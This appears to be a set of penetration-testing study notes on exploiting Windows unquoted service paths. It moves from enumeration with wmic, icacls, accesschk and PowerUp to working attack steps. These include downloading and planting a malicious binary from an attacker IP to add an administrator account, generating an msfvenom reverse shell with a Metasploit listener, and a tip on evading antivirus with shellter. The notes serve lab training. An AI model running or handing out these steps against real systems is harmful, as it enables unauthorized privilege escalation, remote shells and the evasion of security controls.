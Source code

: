 # Unquoted Service Path

## **PWK2024**

```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```

The below command works only from **cmd**

{% code title="List of services with spaces and missing quotes in the binary path" overflow="wrap" %}
```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
{% endcode %}

{% code title="Using Start-Service and Stop-Service to check if user steve has permissions to start and stop GammaService" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\steve> Start-Service GammaService
WARNING: Waiting for service 'GammaService (GammaService)' to start...

PS C:\Users\steve> Stop-Service GammaService
```
{% endcode %}

{% code title="How Windows tries to locate the correct path of the unquoted service GammaService" overflow="wrap" %}
```
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```
{% endcode %}

{% code title="Reviewing permissions on the Enterprise Apps directory" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\steve> icacls "C:\Program Files\Enterprise Apps"
C:\Program Files\Enterprise Apps NT SERVICE\TrustedInstaller:(CI)(F)
                                 NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                                 BUILTIN\Administrators:(OI)(CI)(F)
                                 BUILTIN\Users:(OI)(CI)(RX,W)
                                 CREATOR OWNER:(OI)(CI)(IO)(F)
                                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(RX)
                                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files
```
{% endcode %}

{% code title="Download adduser.exe, save it as Current.exe, and copy it to Enterprise Apps directory" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\steve> iwr -uri http://192.168.119.3/adduser.exe -Outfile Current.exe

PS C:\Users\steve> copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
```
{% endcode %}

{% code title="Start service GammaService and confirm that dave2 was created as member of local Administrators group" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\steve> Start-Service GammaService
Start-Service : Service 'GammaService (GammaService)' cannot be started due to the following error: Cannot start
service GammaService on computer '.'.
At line:1 char:1
+ Start-Service GammaService
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Start-Service],
   ServiceCommandException
    + FullyQualifiedErrorId : CouldNotStartService,Microsoft.PowerShell.Commands.StartServiceCommand
    
PS C:\Users\steve> net user

Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    offsec                   steve
WDAGUtilityAccount
The command completed successfully.

PS C:\Users\steve> net localgroup administrators
...
Members

-------------------------------------------------------------------------------
Administrator
BackupAdmin
dave2
daveadmin
offsec
The command completed successfully.
```
{% endcode %}

### **PowerUp.ps1**

{% code title=" Using Get-UnquotedService to list potential vulnerable services" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\dave> iwr http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1

PS C:\Users\dave> powershell -ep bypass
...

PS C:\Users\dave> . .\PowerUp.ps1

PS C:\Users\dave> Get-UnquotedService

ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users;
                 Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True

ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True
```
{% endcode %}

{% code title="Using the AbuseFunction to exploit the unquoted service path of GammaService" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\steve> Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

ServiceName  Path                                         Command
-----------  ----                                         -------
GammaService C:\Program Files\Enterprise Apps\Current.exe net user john Password123! /add && timeout /t 5 && net loc...

PS C:\Users\steve> Restart-Service GammaService
WARNING: Waiting for service 'GammaService (GammaService)' to start...
Restart-Service : Failed to start service 'GammaService (GammaService)'.
At line:1 char:1
+ Restart-Service GammaService
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Restart-Service]
   , ServiceCommandException
    + FullyQualifiedErrorId : StartServiceFailed,Microsoft.PowerShell.Commands.RestartServiceCommand

PS C:\Users\steve> net user

User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    john            offsec
steve                    WDAGUtilityAccount

The command completed successfully.

PS C:\Users\steve> net localgroup administrators
...
john
...

```
{% endcode %}

## **Finding Unquoted Service Path Vulnerabilities**

Tools like winPEAS and PowerUp.ps1 will usually detect unquoted service paths. But we will need to make sure other requirements to exploit the vulnerability are filled. These are;

1. Being able to write to a folder on the path (icacls)
2. Being able to restart the service

If either of these conditions is not met, successful exploitation may not be possible. \


The command below will list services running on the target system. The result will also print out other information, such as the display name and path.&#x20;

`wmic service get name,displayname,pathname,startmode`

You can further check the binary path of this service using the command below:&#x20;

`sc qc unquotedsvc`

Once we have confirmed that the binary path is unquoted, we will need to check our privileges on folders in the path. Our goal is to find a folder that is writable by our current user. We can use accesschk.exe with the command below to check for our privileges.

`.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"`

The output will list user groups with read (R) and write (W) privileges on the "Program Files" folder.



We now have found a folder we can write to. As this folder is also in the service's binary path, we know the service will try to run an executable with the name of the first word of the folder name.&#x20;



`msfvenom -p windows/x64/shell_reverse_tcp LHOST=[KALI or AttackBox IP Address] LPORT=[The Port to which the reverse shell will connect] -f exe > executable_name.exe`

```shell-session
msf6 > use exploit/multi/handler 
[*] Using configured payload windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set lport 8899
lport => 8899
msf6 exploit(multi/handler) > set lhost 10.9.6.195
lhost => 10.9.6.195
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.6.195:8899
```

{% hint style="info" %}
use shellter to evade AV. Ensure that shellter is installed with Wine on Kali. The instructions can be found in the AV Evasion module if needed
{% endhint %}
